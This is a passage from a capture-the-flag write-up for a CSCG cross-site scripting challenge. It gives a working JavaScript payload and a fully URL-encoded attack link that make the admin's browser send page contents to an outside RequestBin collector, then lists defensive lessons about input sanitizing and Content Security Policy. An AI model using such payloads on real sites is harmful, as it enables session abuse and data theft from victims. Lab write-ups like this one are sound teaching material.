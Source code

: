 Besides the obvious things, like removing the two newlines and getting a shorter domain,
we can remove the `Content-type` header by passing an `URLSearchParams` object as the request body.

This will automatically set the header to the same value but is quite a bit shorter.

We are now at `226` characters and with a very short domain (like `abc.io`) we could even get down to just `203` characters:

```javascript
x=stage2.href;fetch(x,{method:"post",credentials:"include",body:new URLSearchParams({bg:`lang"\x3e\x3chr id=backgrounds lang="\x3cscript\x3elocation='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"\x3e\x3c!--`})});location=x;
```

Ok, now let's URL-encode everything again, pass it to `items.php`, then to the search and send the link to the admin:
```
http://xss.allesctf.net/?search=%3Cscript%20defer%20src%3D%22%2Fitems.php%3Fcb%3Dx%253Dstage2.href%253Bfetch%2528x%252C%257Bmethod%253A%2522post%2522%252Ccredentials%253A%2522include%2522%252Cbody%253Anew%2520URLSearchParams%2528%257Bbg%253A%2560lang%2522%255Cx3e%255Cx3chr%2520id%253Dbackgrounds%2520lang%253D%2522%255Cx3cscript%255Cx3elocation%253D%2527%252F%252Fenbdblkpmmbod.x.pipedream.net%252F%2527%252B%2524%2528%2527b%2527%2529.text%2528%2529%2522%255Cx3e%255Cx3c%2521--%2560%257D%2529%257D%2529%253Blocation%253Dx%253B%22%3E%3C%2Fscript%3E
```

After a few seconds we will see a requests like this in [RequestBin](https://requestbin.com/):
```
/CSCG%7Bc0ngratZ_y0u_l3arnD_sUm_jS:%3E%7D
```

And after URL-decoding (e.g. using [urldecoder.org](https://urldecoder.org)) we get the flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`.


## Conclusion

So, what can we learn from this?

The obvious thing is of course: Always sanitize user input or any data that comes from uncontrolled outside sources like `POST` requests.

In this case, there is no reason for the search bar and the background selector to allow
anything other than `ASCII`-letters, but if they would just HTML-encode the data it still wouldn't be exploitable.

Also, `JSONP` together with a `Content Security Policy` of `script-src: 'self'` clearly isn't a good idea.

The page would also be safe if
the `Content Security Policy` of the index page would use a `nonce` like the `Stage 2` page
or `items.php` just used a fixed callback
or returned `JSON` that would get requested from JavaScript.

And lastly, the `Content Security Policy` should always be as restrictive as possible.
There is no reason for the `Stage 2` page to have `strict-dynamic` in the policy and without it
the page would again be safe.
